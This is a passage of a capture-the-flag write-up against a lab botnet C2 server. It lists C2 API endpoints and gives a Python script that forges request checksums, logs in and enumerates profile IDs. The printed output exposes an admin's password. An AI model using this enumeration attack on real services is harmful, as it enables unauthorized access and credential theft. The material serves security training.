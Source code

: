 ```
%http://172.18.10.105:31305/api/c2_cmd
/api/start_ddos
)http://172.18.10.105:31305/api/start_ddos
/api/bot_sendkeylogs
.http://172.18.10.105:31305/api/bot_sendkeylogs
```

`/api/c2_cmd` wasn't in the original pcap, let's try to hit it. 

`{"response":"you need admin to do that!"}`

Now we need an admin's creds. Grepping the botnet doesn't lead to any results, before we try reversing let's try hitting the `/api/profile/#` endpoints to see if there are more users we can enumerate.

```python
import requests
import json
import hashlib

host = "http://172.18.10.105:31305"
session = requests.Session()

def doPost(api,salt,data={}):
  data['uri_checksum'] = hashlib.md5((salt+api).encode('ascii')).hexdigest()
  return session.post(host+api, data=json.dumps(data))

salt_res=doPost("/api/salt","")
salt=json.loads(salt_res.text)["response"]["salt"]
print(F"Salt: {salt}")
print("Login:")
print(doPost("/api/authenticate",salt,{"username":"user","password":"mysup3rP@ssw0rd!!"}).text)
key = json.loads(doPost("/api/profile/2",salt).text)["response"]["key"]
print(F"Key: {key}")
print(doPost("/api/c2_cmd",salt).text)
for i in range(10):
  print(doPost(F"/api/profile/{i}",salt).text)
  ```

```
python3.8 test.py
Salt: 9^25wPc1S4XwK=e+Z_8'*=YtN"SAN|4|Y9+}AuC}3Li*JfVo^YjSk(W
Login:
{"response":{"status":"ok"}}
Key: c03713f2e5d39653322d3259202ed45d
{"response":"you need admin to do that!"}
{"response":null}
{"response":{"username":"admin","password":"mysup3rs3cr3tP@ssw0rd!!!!","key":"415290769594460e2e485922904f345d"}}
{"response":{"username":"user","password":"mysup3rP@ssw0rd!!","key":"c03713f2e5d39653322d3259202ed45d"}}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
```
